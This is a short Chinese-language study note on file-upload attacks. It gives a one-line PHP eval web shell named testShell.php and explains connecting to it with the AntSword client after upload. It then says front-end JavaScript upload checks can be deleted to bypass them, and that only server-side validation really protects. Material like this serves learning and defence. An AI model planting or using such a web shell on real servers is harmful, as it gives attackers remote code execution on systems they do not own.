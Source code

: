 What I have learned:

### 最简单的蚁剑

testShell.php
```php
<?php @eval($_POST['your-password']);?>
```

上传成功之后，蚁剑添加数据，地址填写为`http://xxx/xx/testShell.php`，密码写自己设置的密码，测试连接没问题的话就代表webshell起作用了

### 前端验证

很多网站会在前端js里写对于上传文件的验证逻辑，但要知道前端内容用户是可控的，所以我们可以直接删除js验证相关的内容，然后上传。

所以对于文件上传而言，真正有用的是后端验证，也就是服务端的验证